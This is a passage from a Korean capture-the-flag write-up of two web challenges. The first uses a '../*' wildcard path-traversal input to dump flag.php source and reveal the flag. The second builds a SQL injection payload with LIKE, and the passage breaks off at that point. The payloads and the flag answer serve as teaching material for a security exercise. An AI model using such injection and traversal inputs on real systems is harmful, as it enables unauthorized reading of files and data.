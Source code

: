 `?letter=`에 영문을 입력하지 않고 적당히 우회하면 되는 문제입니다. 정직하게 `../flag.php`를 쓰려니 너무 길고 이미 파일 이름에 알파벳이 포함되어 있습니다.

와일드카드를 써 봅시다. `letter`에 `../*`를 넣습니다.

`http://web-prob.dkserver.wo.tc/letter_4f1ad94372c166c3cb9632ed5041849a/?letter=../*`

소스를 봅니다.

``` php
==&gt; ./letter/../css &lt;==

==&gt; ./letter/../flag.php &lt;==
<!--?php
/********************************
*                               *
*                               *
*    Flag:{snow_is_commmming}   *
*                               *
*                               *
********************************/
?-->


==&gt; ./letter/../images &lt;==

==&gt; ./letter/../inc &lt;==

==&gt; ./letter/../index.php &lt;==
<!--?php include("inc/5f0c2baaa2c0426eed9a958e3fe0ff94.php"); // header ?-->
<!--?php $page = $_GET['page'];
if($page == "photo"){ ?-->
```

Flag는 `snow_is_commmming`입니다.

## <a id="a-letter-to-her-2"></a>A Letter To Her 2 - WEB500

> [Link](http://web-prob.dkserver.wo.tc/sqli_962a035aacf08966ffc7610957ac0c29/)

Clue를 봅시다.

``` sql
CREATE TABLE `table_name` (

`no` int NOT NULL,

`letter` varchar(256) COLLATE 'utf32_unicode_ci' NOT NULL

)
```

Letter는 아까와 같지만 4번 항목만 `Secret :)`이라는 메시지와 함께 가려져 있습니다. 일단 괄호를 쓸 수 없습니다. 시도 끝에 like를 사용한 쿼리를 하나 만들었습니다.

``` sql
?letter=-1 or letter like "%%" and no=4
```
